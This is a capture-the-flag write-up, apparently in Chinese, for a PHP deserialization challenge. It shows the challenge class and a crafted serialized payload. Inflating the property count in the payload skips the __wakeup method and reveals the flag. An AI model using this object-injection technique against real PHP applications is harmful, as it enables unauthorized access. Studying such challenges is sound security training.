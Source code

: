 
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");
class HaHaHa{
        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }
$Letmeseesee = $_GET['p'];

$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus);
?>
```


得到

O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

修改得到

O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}